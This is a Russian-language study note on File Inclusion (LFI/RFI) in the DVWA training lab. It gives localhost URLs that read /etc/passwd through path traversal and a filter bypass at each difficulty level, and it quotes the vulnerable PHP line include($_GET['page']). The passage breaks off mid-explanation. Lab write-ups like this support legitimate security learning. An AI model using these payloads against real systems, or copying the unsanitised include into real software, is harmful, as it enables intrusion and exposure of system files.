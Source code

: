 Подробная сводка по уязвимости **File Inclusion (FI)**

---

# 📄 File Inclusion (LFI/RFI) в DVWA

## 🧠 Что это?

**File Inclusion** (включение файлов) — уязвимость, которая позволяет злоумышленнику указать путь к файлу, который будет **подключён и выполнен или отображён** на сервере. Делится на два типа:

* **LFI (Local File Inclusion):** загрузка файлов с локальной файловой системы.
* **RFI (Remote File Inclusion):** загрузка файлов с удалённого сервера по URL (возможна только при разрешённой `allow_url_include` в PHP).

---

## 🔍 Примеры на DVWA

### 🔓 Уровень Low

```url
http://localhost:8081/vulnerabilities/fi/?page=/etc/passwd
```

* Файл отображается, потому что параметр `page` передаётся напрямую:

```php
include($_GET['page']);
```

---

### 🟠 Уровень Medium

Аналогично — `include()` работает напрямую:

```url
http://localhost:8081/vulnerabilities/fi/?page=../../../../etc/passwd
```

* Фильтрации нет или она слишком слабая.

---

### 🔒 Уровень High

**Фильтрация на клиенте/сервере** отсекает абсолютные пути.
Но можно обойти:

```url
http://localhost:8081/vulnerabilities/fi/?page=file/../../../../../../etc/passwd
```

**Почему работает:**
